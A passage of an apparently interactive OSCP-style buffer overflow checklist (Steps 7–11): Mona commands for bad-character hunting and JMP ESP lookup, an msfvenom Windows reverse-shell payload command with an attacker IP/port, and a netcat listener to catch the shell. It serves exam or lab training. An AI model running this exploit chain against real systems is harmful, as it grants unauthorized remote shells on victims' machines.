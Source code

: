 	<mark>ESP = 0x<input type="text" id="esp" name="esp" value ="
"/> <br>(Substitute for YYYYYYYY in code segments below)</mark>

- <input type="checkbox" unchecked> Step 7 - Use Mona to find possible bad characters with a comparison between the byte array and ESP.

	`!mona compare -f C:\mona\oscp\bytearray.bin -a YYYYYYYY`

- <input type="checkbox" unchecked> Step 8 - Update the byte array and payload to exclude all possible bad characters, then run the exploit followed by a Mona comparison to find bad characters. Remove identified bad characters (ignoring the second of adjacent bytes that are flagged as bad, as this may not be the case) and repeat the process until all bad characters have been eliminated.

	<mark>Bad Character Array = "\x00\ <input type="text" id="badchars" name="badchars" value ="
"/><br>(Substitute for "\x00\x??\x??\x??" in code segments below)</mark>

	`!mona bytearray -b "\x00\x??\x??\x??"`
	
	`python3 exploit.py`

	<mark>New ESP = 0x<input type="text" id="newesp" name="newesp" value ="
"/> <br>(Substitute for ZZZZZZZZ in code segments below)</mark>

	`!mona compare -f C:\mona\oscp\bytearray.bin -a ZZZZZZZZ` (Update the ESP address after each crash)

- <input type="checkbox" unchecked> Step 9 - Find a JMP point using Mona and update the RETN variable in the exploit script accordingly.

	`!mona jmp -r esp -cpb "\x00\x??\x??\x??"`
	
	<mark>Chosen return address = 0x<input type="text" id="retn" name="retn" value ="
"/> <br>(Substitute for 0xTHISADDR in code segments below)</mark>
	
	`retn = "\xDR\xAD\xIS\xTH"` (Little Endian format for 0xTHISADDR)

- <input type="checkbox" unchecked> Step 10 - Generate an MSF reverse shell payload (excluding all bad characters identified) and replace the payload value in exploit.py, along with NOP (\x90) padding of at least 16 bytes.

	<mark>Your IP Address = <input type="text" id="ipaddr" name="ipaddr" value =""/> <br>(Substitute for 127.0.0.1 in code segments below)</mark><br><br>
	<mark>Your Listener Port = <input type="text" id="listener" name="listener" value =""/> <br>(Substitute for 4444 in code segments below)</mark>
		
	`msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -b "\x00\x??\x??\??" -f c`

- <input type="checkbox" unchecked> Step 11 - Open up a Netcat listener and run the exploit for reverse shell.

	`nc -nvlp 4444`

[Return to Table of Contents](#toc)

***